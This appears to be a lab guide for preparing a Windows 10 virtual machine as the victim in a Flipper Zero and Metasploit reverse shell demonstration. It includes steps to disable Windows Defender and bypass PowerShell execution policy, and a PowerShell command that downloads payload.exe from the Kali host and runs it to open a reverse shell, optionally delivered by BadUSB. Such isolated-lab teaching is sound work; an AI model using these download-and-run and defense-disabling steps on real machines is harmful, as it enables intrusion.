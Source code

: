 # Windows VM Setup Guide for Flipper Zero + Metasploit Demo

This guide provides step-by-step instructions for setting up the Windows virtual machine that serves as the **victim** in the Flipper Zero + Metasploit reverse shell demo. It assumes you are using a clean Windows 10 VM image.

---

## 1. System Requirements

* **OS:** Windows 10 (64-bit)
* **RAM:** 4 GB minimum
* **CPU:** 2 Cores minimum
* **Disk Space:** 40 GB minimum
* **Virtualization Tool:** VirtualBox or VMware
* **Network Mode:** Bridged Adapter (same as Kali)

---

## 2. Download Windows VM

You can use a free Windows 10 virtual machine image from Microsoft:

👉 [https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)

* Choose **VirtualBox** or **VMware** image.
* These VMs expire after 90 days. Make a snapshot after setup for reuse.

---

## 3. Import and Configure the VM

### For VirtualBox:

1. Open VirtualBox and click **File > Import Appliance**.
2. Select the downloaded `.ova` file.
3. Adjust the following settings before starting:

   * **System > Processor**: Set 2 cores.
   * **Network > Adapter 1**: Select **Bridged Adapter**.

### For VMware:

1. Open VMware Workstation or Player.
2. Click **Open a Virtual Machine**, and select the `.vmx` file.
3. Go to **VM > Settings > Network Adapter**, and set to **Bridged** mode.

---

## 4. Initial Windows Configuration

After launching the VM:

### Disable Windows Defender (for demonstration purposes):

**Note:** Only disable for safe, isolated test environments.

1. Open **Windows Security**.
2. Go to **Virus & threat protection > Manage settings**.
3. Turn off **Real-time protection**.

### Enable PowerShell:

Ensure PowerShell is accessible:

```powershell
powershell.exe
```

If disabled by policy, re-enable via Local Group Policy or Registry.

### Enable ICMP (Ping) Response (Optional):

To allow ping responses for network testing:

```powershell
netsh advfirewall firewall add rule name="ICMPv4-In" protocol=icmpv4:8,any dir=in action=allow
```

---

## 5. Host Network Configuration

Verify that the Windows VM is on the same subnet as the Kali VM.

```powershell
ipconfig
```

Example output:

```
IPv4 Address. . . . . . . . . . . : 192.168.178.36
```

You should be able to ping Kali VM's IP from here.

---

## 6. Download Payload from Kali

Assuming Kali is running a web server on port 8081:

```powershell
Invoke-WebRequest -Uri http://<kali_ip>:8081/payload.exe -OutFile payload.exe
```

Then run it:

```powershell
.\payload.exe
```

This should initiate the reverse shell back to Kali.

---

## 7. Notes

* Make sure your Windows VM **trusts** PowerShell execution (bypass policies if needed).
* You can use the Flipper Zero BadUSB script to execute this download+run command.
* Avoid using this setup on live or sensitive networks.

---

## ✅ Windows VM Setup Complete!

You can now test your payload manually or proceed to the Flipper Zero execution phase.
